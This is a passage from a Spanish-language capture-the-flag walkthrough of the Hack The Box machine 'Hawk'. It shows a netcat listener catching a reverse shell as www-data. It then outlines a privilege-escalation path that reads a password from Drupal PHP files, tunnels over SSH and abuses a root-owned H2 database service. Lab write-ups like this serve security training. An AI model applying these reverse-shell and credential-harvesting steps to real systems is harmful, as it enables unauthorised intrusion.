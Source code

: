 ```bash
┌──(kali㉿kali)-[~/HTB/Hawk]
└─$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.10.102] 42236
bash: cannot set terminal process group (903): Inappropriate ioctl for device
bash: no job control in this shell
www-data@hawk:/var/www/html$ 
```

## Escalada de privilegios

Para la escalada vamos a tirar del servicio H2 corriendo en el puerto 8082. El problema es que no nos deja entrar de forma remota.

![](/.gitbook/assets/hawk8.png)


Como estamos dentro de la máquina podemos ver que el proceso H2 es de root. Por tanto, si logramos ejecutar comandos con este proceso habrémos escalado. 

![](/.gitbook/assets/hawk10.png)

Necesitamos una credencial para poder crear un tunel SSH y hacer creer a la máquina que el acceso es local. Buscamos en los ficheros PHP de drupal y encontramos una password.

